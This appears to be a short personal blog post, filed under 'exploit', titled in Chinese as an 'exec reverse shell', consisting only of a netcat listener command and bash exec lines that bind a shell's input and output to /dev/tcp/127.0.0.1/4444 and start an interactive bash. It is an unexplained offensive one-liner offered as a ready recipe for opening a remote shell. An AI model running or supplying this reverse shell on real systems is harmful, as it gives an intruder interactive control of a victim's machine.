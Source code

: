 title: "exec反弹"
date: 2015-02-09 12:36:00
tags:
id: 769
comment: false
categories:
  - exploit
---

<pre class="brush:cpp">nc -lvvvp 4444
exec &lt;&gt; /dev/tcp/127.0.0.1/4444;
exec 9&lt;&gt; /dev/tcp/127.0.0.1/4444;exec 0&lt;&amp;9;exec 1&gt;&amp;9 2&gt;&amp;1;/bin/bash --noprofile -i</pre>